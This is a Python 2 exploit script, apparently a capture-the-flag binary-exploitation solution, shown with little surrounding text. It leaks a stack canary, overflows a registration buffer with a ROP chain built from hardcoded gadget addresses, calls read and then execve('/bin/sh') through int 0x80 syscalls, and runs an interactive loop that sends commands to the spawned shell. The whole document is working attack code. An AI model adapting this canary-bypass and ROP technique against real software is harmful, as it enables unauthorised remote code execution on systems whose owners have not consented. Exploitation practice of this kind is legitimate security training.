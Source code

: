 ```python
eax = 0x4
ebx = fd
ecx = buf
edx = size

sys_execve
eax = 0xb
ebx = /bin/sh\x00
ecx = 0x0
edx = 0x0
esi = 0x0
'''

syscall = 0x0806F870
pop_eax_ret = 0x08048882
pppppr = 0x08098904
pppr = 0x0806f280
bss = 0x080ECD84
'''
0x0806f870 : int 0x80 ; ret
0x0806ce55 : int 0x80
0x08098904 : pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0806f280 : pop edx ; pop ecx ; pop ebx ; ret
'''

canary = canary_leak()
print "[*] Canary : " + hex(canary)
menu()
s.send("2\n")
until("Do you have id code?(y/n)")
s.send("y\n")
until("Register your id code.\n")
payload = "\x00" * 64
payload += p32(canary) * 1
payload += p32(0x08048A45) # ebp
payload += p32(pppr) # edx, ecx, ebx
payload += p32(0x10) # edx == size
payload += p32(bss) # ecx == buf
payload += p32(0x0) # ebx == stdin
payload += p32(pop_eax_ret)
payload += p32(0x3) # eax = 0x3
payload += p32(syscall)
payload += p32(pppr) # edx, ecx, ebx
payload += p32(0x0) # edx
payload += p32(0x0) # ecx
payload += p32(bss) # ebx
payload += p32(pop_eax_ret)
payload += p32(0xb) # eax = 0xb
payload += p32(syscall)
#payload += p32(pop_eax_ret)
#payload += p32(0x4)
#payload += p32(syscall)

print "[*] len(Payload) : " + str(len(payload))
s.send(payload)
r_exit()
print repr(s.recv(1024))
s.send("/bin/sh\x00")

while True:
	cmd = raw_input(">")
	s.send(cmd + "\n")
	print s.recv(1024)
```